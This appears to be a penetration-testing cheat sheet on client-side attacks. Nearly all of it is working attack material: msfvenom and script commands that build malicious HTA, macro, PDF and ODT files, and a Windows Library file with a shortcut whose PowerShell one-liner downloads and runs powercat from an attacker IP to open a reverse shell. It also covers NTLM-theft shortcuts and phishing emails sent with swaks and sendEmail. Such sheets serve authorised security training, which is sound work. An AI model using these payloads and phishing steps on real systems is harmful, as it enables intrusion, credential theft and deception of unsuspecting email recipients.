 # 🎣 Client-Side Attacks

## Information Gathering

```shell
exiftool <file>
canarytokens.com # generate a fake url to collect victim data
```

## Attacks

- [evil_macro.py](https://github.com/rodolfomarianocy/Evil-Macro/)
- [malicious-pdf.py](https://github.com/jonaslejon/malicious-pdf)
- [MMG-LO](https://github.com/0bfxgh0st/MMG-LO)

```shell
# create a malicious HTA with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o file.hta

# generate a malicious macro for a reverse shell in powershell using base64 for .doc
python evil_macro.py -l <ip> -p <port> -o macro.txt

# generate a malicious PDF file
python3 malicious-pdf.py burp-collaborator-url

# generate a malicious odt file
python mmg-odt.py windows <ip> <port> 
```

### Windows Library

In Windows, create a file **config.Library-ms** and put the attack IP in the url and save it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.152</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Now create a shortcut called **install** with the attack machine IP:

```shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.152:3333/powercat.ps1'); powercat -c 192.168.45.152 -p 4444 -e powershell"
```

Transfer them to to the attack machine, start a webdav server to serve the shortcut, a python http server to serve the powercat script and a listener to receive the reverse shell and send the email.

### Create shortcuts

#### Windows

```ps
$LnkFile = "C:\users\<user>\desktop\Services.lnk"
PS C:\> $WshShell = New-Object -ComObject WScript.Shell
PS C:\> $Shortcut = $WshShell.CreateShortcut($LnkFile)
PS C:\> $Shortcut.TargetPath = "\\192.168.45.191\test\trick.bat"
PS C:\> $Shortcut.Save()
```

#### Linux

> [ntlm_theft.py](https://github.com/Greenwolf/ntlm_theft)

```shell
python ntlm_theft/ntlm_theft.py -g lnk -s 192.168.45.191 -f Services
```

### Sending Emails

```shell
swaks -t <victim(s)_email> -f <from_email> --server <smtp_server> --body 'click me http://<YOUR_IP>/<MALWARE>' --header "Subject: Important" --add-header "Really: 1.0" --add-header "Content-Type: text/html"  [--attach <ATTACHED_FILE>]

sendEmail -t <victim(s)_email> -u <subject> -m <message> -a <attachment> -s <smtp_server> -f <from_email> -xu <user> -xp <pass>
```
